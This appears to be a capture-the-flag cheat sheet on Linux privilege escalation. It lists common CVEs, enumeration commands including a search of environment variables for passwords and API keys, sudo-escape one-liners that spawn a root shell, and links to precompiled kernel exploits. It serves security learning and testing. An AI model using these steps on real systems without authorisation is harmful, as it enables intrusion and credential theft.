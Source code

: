 # Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |
| 1 | [Shellshock - CVE-2014-6271](https://www.exploit-db.com/exploits/34900) | Privilage esculation exploit.  Can be used against CGI-Bin also. |
| 2 | [DirtyCow - CVE-2016-5195](https://dirtycow.ninja/) | Privilege escalation vulnerability in the Linux Kernel. (Linux Kernel <= 3.19.0-73.8) |
| 3 | [SambaCry - CVE-2017–7494](https://redteamzone.com/EternalRed/) | Also known as EternalRed.  This is the EthernalBlue of Linux SMB File Servers. |


### Post Exploitation - Privilage Escalation
*Automated Tools:*
| Tool | Description |
| --- | --- |
| [LinPEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) | A script that search for possible paths to escalate privileges on Linux/Unix |


## Manual Privilage Escalation
*Grabbing OS Information*
```
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
```

*Checking $PATH for Write Permissions*
If you have **write permissions on any folder inside the ``PATH`` variable** you may be able to hijacking some libraries or binaries:
```
echo $PATH
```

*Checking Environment Variables*
Looking for interesting information, passwords or API keys in the environment variables.
```
(env || set) 2>/dev/null
```

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```

## Kernel Exploits
Check the Kernel version for a possible CVE.
```
cat /proc/version
uname -a
```

*Searching for an exploit via SearchSploit*
```
searchsploit "Linux Kernel"
```

*Resources with Compiled Kernel Exploits*
| # | Resource | Description |
| --- | --- | --- |
| 1 | [Lucyoa's Github](https://github.com/lucyoa/kernel-exploits) | Linux Kernel Exploited, Precompiled. |
| 2 | [bwbwbwbw's GitHub](https://github.com/bwbwbwbw/linux-exploit-binaries) | List of very common Linux Kernel Exploits, Precompiled. |
| 3 | [Kabot's Privilege Escalation Packs](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) | Another lsit of Linux Kernel Exploits, Precompiled. |


# Resources Referenced
*Special Thanks to:*
| # | Name | Resource |
| --- | --- | --- |
| 1 | Carlos Polop | https://book.hacktricks.xyz/linux-unix/privilege-escalation |
